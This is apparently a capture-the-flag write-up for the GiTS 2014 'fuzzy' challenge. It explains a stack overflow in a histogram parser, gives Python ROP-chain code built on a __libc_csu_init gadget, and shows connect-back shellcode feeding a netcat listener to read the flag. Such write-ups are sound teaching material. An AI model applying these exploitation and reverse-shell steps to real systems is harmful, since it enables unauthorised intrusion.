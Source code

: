 ```yaml
---
title: 'GiTS 2014: fuzzy'
author: awreece
layout: post
permalink: /?p=1146
categories:
  - General News
---
```

tl;dr &#8211; `fuzzy` is a &#8220;super secure parsing engine&#8221;, that includes a histogram function. The histogram ascii text uses a buffer on the stack, but will increment  
buckets past the end of the buffer if non ascii text is provided, allowing us to  
rop. 

<!--more-->

Binary and exploit available [here][1].

## The program

`fuzzy` is a &#8220;super secure parsing engine&#8221;, that includes a histogram function:

<div class="highlight">
  <pre>$ nc fuzzy.2014.ghostintheshellcode.com 4141
Welcome to the super secure parsing engine!
Please select a parser!

1) Sentence histogram
2) Sorted characters (ascending)
3) Sorted characters (decending)
4) Sorted ints (ascending)
5) Sorted ints (decending
6) global_find numbers in string
1
Enter a series of characters
hello
 :0 !:0 ":0 #:0 $:0 
%:0 &:0 &#39;:0 (:0 ):0 
... &lt;snip&gt; ...
a:0 b:0 c:0 d:0 e:1 
f:0 g:0 h:1 i:0 j:0 
k:0 l:2 m:0 n:0 o:1 
p:0 q:0 r:0 s:0 t:0 
u:0 v:0 w:0 x:0 y:0 
z:0 {:0 |:0 }:0
</pre>
</div>

As you can see, it computes a histogram of the input. This histogram  
is constructed using a buffer that is on the stack, so if we send it  
non-ascii text we can write to the stack. By modifying the saved `ebp`,  
we can point the stack to a buffer we control. 

Unfortunately, this is a bit challenging to figure out because all  
the interesting functions are encrypted. Fortunately for us, the &#8220;encryption&#8221;  
is just bitwise not. Using our favorite hex editor, we make a new binary with  
the decrypted functions to reverse.

With control of the stack, we get control over rip and can ROP.  
We will use the `callFunction` function, which decrypts a function  
into an executable page and then runs it. Our goal will be to `read` encrypted shellcode  
into a known location (there is a convenient buffer `dontcollide` in the data  
section that is never used), then invoke `callFunction` to run our shellcode.  
Unfortunately, since this is x64, we need to find a good gadget to be able to  
control registers and call functions. Luckily, there is a good gadget in  
`__libc_csu_init`:

<div class="highlight">
  <pre>loc_401790:                             ; CODE XREF: __libc_csu_init+64j
                mov     rdx, r13
                mov     rsi, r14
                mov     edi, r15d
                call    qword ptr [r12+rbx*8]
                add     rbx, 1
                cmp     rbx, rbp
                jnz     short loc_401790

loc_4017A6:                             ; CODE XREF: __libc_csu_init+4Aj
                mov     rbx, [rsp+8]
                mov     rbp, [rsp+10h]
                mov     r12, [rsp+18h]
                mov     r13, [rsp+20h]
                mov     r14, [rsp+28h]
                mov     r15, [rsp+30h]
                add     rsp, 38h
                retn
</pre>
</div>

This gadget allows us to control the first three registers we need an call  
anything we have function pointer to. The program uses a large function pointer table to enable  
the encrypted functions to call library functions, so we have pointers to many  
library functions. Unfortunately, we do *not* have a pointer to `readAll`, so we  
cannot use it with our gadget. Furthermore, our gadget only controls 3 arguments,  
so we cannot easily use `recv`. Lastly, we cannot use the encrypted `my_readAll`  
function (that we have a pointer to) because it reads its arguments out of a  
buffer and we don&#8217;t have an easy way to call functions with a buffer we control  
as an argument. Still, this gadget allows us to chain calls arbitrary function pointers  
with 3 arguments:

<div class="highlight">
  <pre># Assumes rip points to loc_4017A6.
def call(function_ptr, arg0, arg1, arg2):
  # Make sure rbx is 0 to make math easy, and rbp is 1 so we fall through to
  # loc_4017A6 for repeated calls.
  #      padding            rbx       rbp       r12                  r13=rdx      r14=rsi      r15=edi
  return pack(0xdeadbeef) + pack(0) + pack(1) + pack(function_ptr) + pack(arg2) + pack(arg1) + pack(arg0) + pack(__libc_csu_init_gadget)
</pre>
</div>

Instead, we make a function pointer to `readAll` in the data section that we can use our  
gadget.  
We call `memset` 4 times, once for each distinct byte in  
the the address of `readAll`, and make `dontcollide` a pointer to `readAll`.

<div class="highlight">
  <pre># Set dontcollide to be a function pointer to readAll (0x4013cb).
payload += call(memset_fptr, dontcollide, 0, 8)
payload += call(memset_fptr, dontcollide, 0xcb, 1)
payload += call(memset_fptr, dontcollide + 1, 0x13, 1)
payload += call(memset_fptr, dontcollide + 2, 0x40, 1)
</pre>
</div>

We then can use our gadget to call `readAll`,  
reading the encrypted shellcode into `dontcollide`, and then again to call  
`callFunction`, executing our shellcode. 

<div class="highlight">
  <pre># Read the shellcode into a buffer. The socket to read from is 4.
payload += call(dontcollide, 4, dontcollide, 0x400)

# Call our shellcode.
payload += call(callEncryptedFunction_fptr, dontcollide, 0, 0)
</pre>
</div>

We grab some connect back shellcode  
and get a shell:

<div class="highlight">
  <pre>~% python fuzzy.py                                           [console 1]
~% nc -l 16705                                               [console 2]
cat key.txt
key is: fuzzingIsFun2
</pre>
  
  <p>
    Writeup by Alex Reece, see me on <a href="https://plus.google.com/106589059588263736517?rel=author">Google+</a> or my <a href="http://codearcana.com">blog</a>.
  </p>

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2014/01/fuzzy.tar.gz